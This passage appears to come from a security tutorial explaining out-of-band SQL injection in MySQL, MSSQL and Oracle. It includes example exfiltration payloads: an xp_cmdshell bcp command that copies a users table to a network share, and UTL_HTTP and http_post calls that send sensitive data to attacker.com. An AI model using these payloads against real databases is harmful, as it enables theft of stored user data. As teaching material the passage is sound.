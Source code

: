  `SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';`
        

An attacker could then access this file via an SMB share or HTTP server running on the database server, thereby exfiltrating the data through an alternate channel.

**Microsoft SQL Server (MSSQL)**

In MSSQL, Out-of-band SQL injection can be performed using features like [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), which allows the execution of shell commands directly from SQL queries. This can be leveraged to write data to a file accessible via a network share:

 `EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';`
        

Alternatively, `OPENROWSET` or `BULK INSERT` can be used to interact with external data sources, facilitating data exfiltration through OOB channels.  

**Oracle**  

In Oracle databases, Out-of-band SQL injection can be executed using the [UTL_HTTP](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_HTTP.html) or [UTL_FILE](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_FILE.html) packages. For instance, the UTL_HTTP package can be used to send HTTP requests with sensitive data:

 `DECLARE   req UTL_HTTP.REQ;   resp UTL_HTTP.RESP; BEGIN   req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);   UTL_HTTP.GET_RESPONSE(req); END;`
        

Examples of Out-of-band Techniques

Out-of-band SQL injection techniques in MySQL and MariaDB can utilise various network protocols to exfiltrate data. The primary methods include DNS exfiltration, HTTP requests, and SMB shares. Each of these techniques can be applied depending on the capabilities of the MySQL/MariaDB environment and the network setup.  

**HTTP Requests**  

By leveraging database functions that allow HTTP requests, attackers can send sensitive data directly to a web server they control. This method exploits database functionalities that can make outbound HTTP connections. Although MySQL and MariaDB do not natively support HTTP requests, this can be done through external scripts or User Defined Functions (UDFs) if the database is configured to allow such operations.

First, the UDF needs to be created and installed to support HTTP requests. This setup is complex and usually involves additional configuration. An example query would look like `SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;`.

HTTP request exfiltration can be implemented on Windows and Linux (Ubuntu) systems, depending on the database's support for external scripts or UDFs that enable HTTP requests.

**DNS Exfiltration** 

Attackers can use SQL queries to generate DNS requests with encoded data, which is sent to a malicious DNS server controlled by the attacker. This technique bypasses HTTP-based monitoring systems and leverages the database's ability to perform DNS lookups.

As discussed above, MySQL does not natively support generating DNS requests through SQL commands alone, attackers might use other means such as custom User-Defined Functions (UDFs) or system-level scripts to perform DNS lookups.
